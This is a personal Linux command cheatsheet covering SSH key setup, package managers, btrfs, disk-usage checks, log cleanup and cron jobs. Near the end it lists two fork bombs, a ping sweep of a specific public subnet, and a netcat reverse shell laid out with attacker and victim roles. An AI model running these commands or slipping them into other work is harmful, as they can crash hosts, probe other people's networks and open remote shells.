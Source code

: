 # [cheatsheet](./README.md)

## ssh

### [add git key](https://docs.github.com/en/authentication/connecting-to-github-with-ssh/generating-a-new-ssh-key-and-adding-it-to-the-ssh-agent?platform=linux)

```bash
ssh-keygen -t ed25519 -C "example@gmail.com"
eval "$(ssh-agent -s)"
ssh-add ~/.ssh/id_ed25519
cat ~/.ssh/id_ed25519.pub
```

<https://github.com/settings/keys>

### generate and upload SSH

```bash
key_file=~/.ssh/filename
ssh-keygen -t ed25519 -f $key_file  # -P "password" -C "comment"
ssh-copy-id -i $key_file.pub user@host
# or mkdir -p ~/.ssh/ && editor ~/.ssh/authorized_keys
```

## package managers

### apt

```bash
# show installed https://askubuntu.com/q/2389
apt-mark showmanual
# or better
zgrep 'Commandline: apt' /var/log/apt/history.log /var/log/apt/history.log.*.gz
# or
zgrep -E "Commandline: apt(|-get)" /var/log/apt/history.log*
```

### pacman

#### Update old enough arch

```bash
sudo pacman --noconfirm --needed --color always -Sy archlinux-keyring
sudo pacman --noconfirm --needed --color always -Syu
# sudo pacman --needed --color always -Syu
```

#### tune parallel downloads

```bash
sudo sed -i 's/^#ParallelDownloads = [0-9]\+/ParallelDownloads = 7/' /etc/pacman.conf
```

##### revert

```bash
sudo sed -i 's/^ParallelDownloads = [0-9]\+/#ParallelDownloads = 7/' /etc/pacman.conf
```

#### AUR

```bash
sudo pacman --noconfirm --needed --color always -S git base-devel && git clone https://aur.archlinux.org/yay-bin.git && cd yay-bin && makepkg -si --noconfirm && cd - && rm -rf yay-bin
```

#### [mirrors choose](https://wiki.archlinux.org/title/mirrors#Fetching_and_ranking_a_live_mirror_list)

```bash
sudo yay -S --color always rate-mirrors-bin
export TMPFILE="$(mktemp)"; \
    sudo true; \
    rate-mirrors --save=$TMPFILE arch --max-delay=43200 \
      && sudo mv /etc/pacman.d/mirrorlist /etc/pacman.d/mirrorlist-backup \
      && sudo mv $TMPFILE /etc/pacman.d/mirrorlist
```

### dnf

#### clean

```bash
sudo dnf clean all
```

### rust

#### rustup

##### TODO

- [profile](https://rust-lang.github.io/rustup/concepts/profiles.html)
  - minimal?
- PATH

```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
# or proto install rust
```

#### software

```bash
cargo install cargo-update
cargo install-update -a
```

## btrfs

```bash
sudo btrfs fi usage /

sudo btrfs balance start --full-balance --bg /
sudo btrfs balance status /
```

## distrobox

```bash
# astra linux
distrobox create --name astra --image registry.astralinux.ru/astra/ubi18:latest
```

## commands

### [download "whole" site](https://pingvinus.ru/note/wget-download-sites) ([alt](https://superuser.com/q/1672776))

```bash
# set recursion depth manually
wget -r -k -l 7 -p -E -nc http://site.com/
# OR automatic
wget -mpEk http://site.com/
```

### check size of files at folder

```bash
# current folder
du . -hcd 1 | sort -hr
# current folder with files (use apparent sizes, rather than disk usage)
du . -hacd 1 --apparent-size | sort -hr
# all files in that folder recursively
du . -ha | sort -hr
```

### grep search in dir recursively

TODO add find or strings example

```bash
grep -rnw 'dir/' -e 'search'
```

### [dos2unix4folder](https://stackoverflow.com/a/11929475/15844518)

```bash
find . -type f -print0 | xargs -0 dos2unix -ic0 | xargs -0 dos2unix -b
# or for git repos
git ls-files | xargs dos2unix -ic0 | xargs dos2unix -b
```

### [bleachbit clear](https://askubuntu.com/q/671798)

```bash
sudo bleachbit --list | grep -E "[a-z0-9_\-]+\.[a-z0-9_\-]+" | grep -v system.free_disk_space | xargs sudo bleachbit --clean
```

### [clean running docker containers logs (also there is logs rotating config TODO)](https://stackoverflow.com/q/41091634)

```bash
sudo sh -c "truncate -s 0 /var/lib/docker/containers/*/*-json.log"
```

### [show motd](https://askubuntu.com/q/319528)

```bash
run-parts /etc/update-motd.d
```

### kill died terminals

unknown source

```bash
ps aux | grep sshd | grep "\w*@pts/.*" | awk {'print $2'} | xargs kill -9
```

### [cron based autoclean](https://crontab.guru/#0_0_*_*_*)

```bash
sudo crontab -e
# ---
0 0 * * * sh -c "truncate -s 0 /var/lib/docker/containers/*/*-json.log"
0 0 * * * bleachbit --list | grep -E "[a-z0-9_\-]+\.[a-z0-9_\-]+" | xargs bleachbit --clean
```

### linux fork bombs

```bash
# spams function calls
:(){ :|:& };:
# redirect yes output to "no" file
yes > no
```

### Ping whole subnet

```bash
subnet='46.175.145'; for i in {0..255}; do timeout 0.5 ping -c1 $subnet.$i; done
```

### send nc/netcat/croc etc

- use GNU or OpenBSD version of `nc` (not libressl)
- `nc` reverse shell
  - attacker listens `nc -vlp SERVER_PORT 2>&1 | tee -a console.log`
  - victim sends `nc SERVER_IP SERVER_PORT -e /bin/sh`
- [`nc` send file](https://superuser.com/a/98323)
  - `cat FILE_NAME | netcat SERVER_IP SERVER_PORT`
  - `nc -l -p SERVER_PORT -q 1 > FILE_NAME < /dev/null`
- [croc](https://github.com/schollz/croc)
  - `curl https://getcroc.schollz.com | bash`
    - alt with `wget -O- https://getcroc.schollz.com | bash`
    - if install is [failed](https://github.com/schollz/croc/issues/765), use unpacked binary from `/tmp/` folder (it is not deleted after failed install)

